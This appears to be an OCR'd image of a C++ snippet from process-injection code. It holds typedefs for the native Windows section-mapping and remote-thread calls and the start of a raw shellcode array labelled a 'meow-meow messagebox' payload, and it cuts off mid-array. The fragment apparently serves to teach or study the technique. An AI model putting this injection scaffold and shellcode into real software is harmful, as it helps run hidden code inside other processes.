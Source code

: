 ```cpp
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwCreateThreadEx
typedef NTSTATUS(NTAPI* pZwCreateThreadEx)(
  _Out_ PHANDLE                 ThreadHandle,
  _In_ ACCESS_MASK              DesiredAccess,
  _In_opt_ POBJECT_ATTRIBUTES   ObjectAttributes,
  _In_ HANDLE                   ProcessHandle,
  _In_ PVOID                    StartRoutine,
  _In_opt_ PVOID                Argument,
  _In_ ULONG                    CreateFlags,
  _In_opt_ ULONG_PTR            ZeroBits,
  _In_opt_ SIZE_T               StackSize,
  _In_opt_ SIZE_T               MaximumStackSize,
  _In_opt_ PVOID                AttributeList
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
```